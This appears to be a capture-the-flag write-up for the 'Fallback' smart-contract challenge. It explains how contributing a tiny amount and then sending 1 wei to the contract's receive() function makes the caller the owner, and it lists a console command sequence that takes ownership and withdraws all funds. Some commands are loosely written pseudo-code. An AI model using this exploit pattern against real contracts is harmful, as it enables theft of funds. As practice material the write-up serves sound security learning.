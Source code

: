# Fallback

## Description

The problem with this smart contract is that the owner can withdraw all the funds,
and it's very easy to become the owner.

If you activate the fallback function, you become the owner, you just need to get
over the requirement on line 35.

In order to do so, you have to invoke `contribute()`. We contribute `0.001 ETH - 1`,
the maximum allowed to try to become the new owner.

We check and verify that we aren't the owner, but our contribution is now positive.
We send 1 wei to the contract, activating the `receive()` fallback function, making us
the new owner.

We now withdraw, stealing all the funds.

## Command Sequence

```
> await contract.getContribution()
0
> await contract.owner()
not my address
> value = toWei("0.001" - 1)
> await contract.contribute({value: value})
> await.owner()
not my address
> await contract.getContribution()
bigger than zero
> await sendTransaction({from: player, to: contract.address, value: "0x1"})
> await contract.owner()
my address
> await contract.withdraw()
I steal the funds
```

## Note

Even though I've included an attacker smart contract, this doesn't work and is
only for practice/illustration. This vulnerabily must be exploited directly with
a javascript script.
